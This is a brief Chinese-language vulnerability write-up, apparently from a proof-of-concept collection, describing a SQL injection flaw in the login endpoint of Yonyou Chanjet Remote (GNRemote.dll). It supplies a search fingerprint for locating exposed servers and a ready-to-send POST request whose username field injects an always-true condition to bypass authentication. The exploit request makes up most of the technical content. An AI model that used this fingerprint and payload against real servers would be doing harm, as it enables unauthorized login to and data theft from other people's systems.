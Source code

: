 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

# 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

```
用友 畅捷通远程通
```

## 网络测绘

```
body="远程通CHANJET_Remote"
```

## 漏洞复现

登录页面

![image-20221017171544062](/images/202210171715136.png)

验证POC

```
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![image-20221017171557552](/images/202210171715601.png)

![image-20221017171609942](/images/202210171716987.png)

